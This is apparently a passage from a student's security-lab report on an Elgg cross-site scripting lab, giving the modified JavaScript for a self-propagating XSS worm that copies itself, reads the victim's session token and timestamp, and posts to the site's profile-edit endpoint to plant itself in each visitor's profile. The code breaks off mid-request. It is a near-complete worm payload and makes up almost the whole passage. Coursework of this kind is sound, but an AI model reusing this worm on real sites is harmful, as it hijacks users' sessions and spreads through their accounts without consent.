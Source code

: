   ![1588013728756](assets/1588013728756.png)

### 4.8 Writing a Self-Propagating XSS Worm [6 Marks]

* The modified code

  ```html
  <script type="text/javascript">
  window.onload = function () { 
      var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
      alert(wormCode)
      var userName=elgg.session.user.name;
      var guid="&guid="+elgg.session.user.guid;
  	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  	var token="&__elgg_token="+elgg.security.token.__elgg_token;
  	//Construct the HTTP request to add Samy as a friend.
      var desc = "&description=SAMY+is+MY+HERO" + wormCode;
      desc += "&accesslevel%5Bdescription%5d=2";
      
      var content = token + ts + userName + desc +guid;
  	var samyGuid=47; //FILL IN
      var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  	if(elgg.session.user.guid!=samyGuid)
      {
          //Create and send Ajax request to modify profile
          var Ajax=null;
          Ajax=new XMLHttpRequest();
          Ajax.open("POST",sendurl,true);
          Ajax.setRequestHeader("Host","www.xsslabelgg.com");
          Ajax.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
  ```